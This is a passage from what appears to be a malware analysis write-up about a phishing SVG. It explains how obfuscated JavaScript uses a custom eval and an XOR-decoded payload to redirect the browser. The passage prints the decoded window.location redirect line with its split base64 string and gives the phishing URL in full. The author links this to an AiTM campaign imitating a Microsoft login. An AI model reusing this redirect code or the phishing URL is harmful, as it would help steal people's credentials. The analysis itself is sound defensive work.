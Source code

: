 ```js
        writable: true 
    });
    n = `${W}`;
    n;
})
```

The code sets up a WeakMap, which works like a dictionary for key-value pairs (with keys being objects).

- `C` stores the toString function.

- `W` starts as an empty function.

The code then checks if the WeakMap already has a specific key. If not, it runs `S(Q)` — where:

- `S` is our custom eval

- `Q` is the XOR-decoded payload

After execution, W is updated to C (i.e., toString), and finally:

```js
n = `${W}`;
```

This line stringifies the function — a neat trick to trigger toString() and possibly execute

So now we are only left with Q which have

```js
'window.location.href = atob("aH"+"R0"+"cH"+\'M6\'+`Ly`+\'9h\'+\'en\'+\'Jz\'+"MS"+"51"+`am`+`52`+\'Zn\'+\'Nq\'+\'Lm\'+"Vz"+`L1`+"FN"+"Uj"+\'Rw\'+`ZH`+\'M0\'+"QF"+"Rt"+\'bm\'+\'sy\'+"aC"+`8k`)+w;
```

So if we clean up

`atob` is like base64 -d for javascript, so it decodes the string and append `w` to it which is another base64 and stores it in `window.location.href`, so I used cyberchef for this and here is the recipe

<a href="https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%22'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%2B'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%5C''%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%5C%5C'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%60'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ImFIIisiUjAiKyJjSCIrXCdNNlwnK2BMeWArXCc5aFwnK1wnZW5cJytcJ0p6XCcrIk1TIisiNTEiK2BhbWArYDUyYCtcJ1puXCcrXCdOcVwnK1wnTG1cJysiVnoiK2BMMWArIkZOIisiVWoiK1wnUndcJytgWkhgK1wnTTBcJysiUUYiKyJSdCIrXCdibVwnK1wnc3lcJysiYUMiK2A4a2A&ieol=CRLF&oeol=CRLF" target="_blank">
🔗 View CyberChef Recipe
</a>

and it return the url - https://azrs1.ujnvfsj.es/QMR4pds4@Tmnk2h/$

At the time I was analyzing the SVG, the phishing site itself wasn’t accessible. So I looked it up online, and found that someone had already submitted it to ANY.RUN. According to the analysis, the payload redirects to a Microsoft login page, confirming that this was likely part of an AiTM (Adversary-in-the-Middle) phishing campaign.
